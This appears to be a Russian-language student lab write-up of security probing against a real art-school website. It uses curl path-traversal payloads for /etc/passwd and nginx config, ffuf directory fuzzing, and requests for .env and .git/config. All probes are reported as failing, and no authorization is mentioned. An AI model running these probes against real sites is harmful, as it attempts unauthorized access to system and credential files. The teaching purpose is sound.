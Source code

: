 # Лабораторная работа №1 - со звёздочкой :star2:
![meme1](https://github.com/MkrtchyanKarina/DevOps_labs/blob/master/lab1_extra/img/meme1.jpg)

За основу мы взяли сайт [школы искусств](https://dshi46.ru/)
## Path traversal (обход пути)
*Уязвимость в веб-приложениях, позволяющая злоумышленнику получить несанкционированный доступ к файлам и директориям на сервере, находящимся за пределами разрешенного корневого каталога.*
1. Установим curl 
```
winget install curl.curl
```

2. Попытаемся сделать обход и получить доступ к системным файлам
```
curl -Uri "https://dshi46.ru/../../../../etc/passwd" | select -First 5
```
> Файл /etc/passwd содержит следующие записи, разделенные двоеточиями:
  > - Имя пользователя
  > - Зашифрованный пароль
  > - Цифровой идентификатор пользователя (UID)
  > - Цифровой идентификатор группы пользователя (GID)
  > - Полное имя пользователя (GECOS)
  > - Домашний каталог пользователя
  > - Оболочка входа в систему

![res1](https://github.com/MkrtchyanKarina/DevOps_labs/blob/master/lab1_extra/img/res1.png)

Попробуем закодировать символы ( %2f = / и, если сервер вдруг на Windows: %5c = \ ), а также получить файл с конфигурациями nginx
```
curl -Uri "https://dshi46.ru/..%2f..%2f..%2f..%2fetc%2fpasswd" | select -First 5
curl -Uri "https://dshi46.ru/..%5c..%5c..%5c..%5cetc%2fpasswd" | select -First 5
curl -Uri "https://dshi46.ru/..%2f..%2f..%2fetc%2fnginx%2fnginx.conf" | select -First 5
```

![res2](https://github.com/MkrtchyanKarina/DevOps_labs/blob/master/lab1_extra/img/res2.png)

Как видим, доступ получить не удалось :(

## FFUF
*мощный инструмент командной строки, предназначенный для перебора содержимого веб-приложений. Он позволяет автоматизировать процесс фаззинга, тем самым обнаруживая скрытые файлы и директории, а также проверяя различные параметры URL и заголовки HTTP.*
1. Скачаем релиз утилиты FFUF для Windows: ffuf_2.1.0_windows_amd64.zip
2. Извлечем ffuf.exe и переместим его в папку C:\Tools\
3. Добавим в переменные среды ( переменную Path ) путь до этой папки C:\Tools\
4. Перезапустим PowerShell
5. Скачаем [словарь для перебора](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt)
6. Выполним команду
   ```
   ffuf -w C:\Users\User\Downloads\common.txt -u https://dshi46.ru/FUZZ
   ```
7. В результате у нас есть доступ к странице для входа в аккаунт админа, но это не является уязимостью
8. А также на сервере существуют папки documents, stat и images к которым доступа нет
   ![res3](https://github.com/MkrtchyanKarina/DevOps_labs/blob/master/lab1_extra/img/res3.png)
9. С помощью команд
    ```
    ffuf -u https://dshi46.ru/stat/FUZZ -w "C:\Users\User\Downloads\common.txt" -mc 200,403 -t 10
    ffuf -u https://dshi46.ru/documents/FUZZ -w "C:\Users\User\Downloads\common.txt" -mc 200,403 -t 10
    ffuf -u https://dshi46.ru/documents/FUZZ -w "C:\Users\User\Downloads\common.txt" -mc 200,403 -t 10
    ```
    ![res4](https://github.com/MkrtchyanKarina/DevOps_labs/blob/master/lab1_extra/img/res4.png)
    
   проверили содержимое каталогов и код у файлов. Ничего лишнего вне рабочего каталога index нам не оказалось доступным.

## Раскрытие информации (Information Disclosure)
*Анализ HTTP-заголовков и проверка стандартных мест*
1. Проверим заголовки ответа
   ```
   curl -Uri "https://dshi46.ru/"
   ```
   ![res5](https://github.com/MkrtchyanKarina/DevOps_labs/blob/master/lab1_extra/img/res5.png)
2. Проверим служебные каталоги и файлы
   ```
   curl -Uri "https://dshi46.ru/nginx-status"
   curl -Uri "https://dshi46.ru/.env"        
   curl -Uri "https://dshi46.ru/.git/config"  
   curl -Uri "https://dshi46.ru/server-status"
   ```

   ![res6](https://github.com/MkrtchyanKarina/DevOps_labs/blob/master/lab1_extra/img/res6.png)

![meme2](https://github.com/MkrtchyanKarina/DevOps_labs/blob/master/lab1_extra/img/meme2.jpg)
